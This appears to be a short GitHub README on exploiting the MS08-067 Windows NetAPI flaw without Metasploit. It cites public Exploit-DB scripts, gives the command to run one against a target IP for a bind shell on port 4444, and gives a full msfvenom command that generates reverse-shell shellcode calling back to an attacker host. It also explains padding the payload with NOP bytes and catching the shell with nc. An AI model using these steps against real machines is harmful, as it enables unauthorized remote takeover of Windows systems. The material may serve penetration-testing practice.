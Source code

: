 # Netapi MS08-067 without metasploit

 Reference:

https://www.exploit-db.com/exploits/7132   

https://www.exploit-db.com/exploits/40279	(Reverse shell modification of above payload but not working).

7132.py directly bind shell to port 4444 at server(No code modification required).
Exploit: python 7132.py 192.168.1.6 2	(& got bind shell at server side port 4444)

Above code can ge modified to get reverse shell:
i. Generate shellcode using msfvenom: msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.21 LPORT=5253 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -a x86 --platform windows
ii. Replace shellcode with above generated code.
iii. Add '\0x90' such that total size of payload becomes equal to 360 bytes(same as the size of bind shellcode of the exploit).

[Size of my payload generated = 348 bytes so addded "\x90" *12 to my shellcode]

& get reverse shell on nc :).
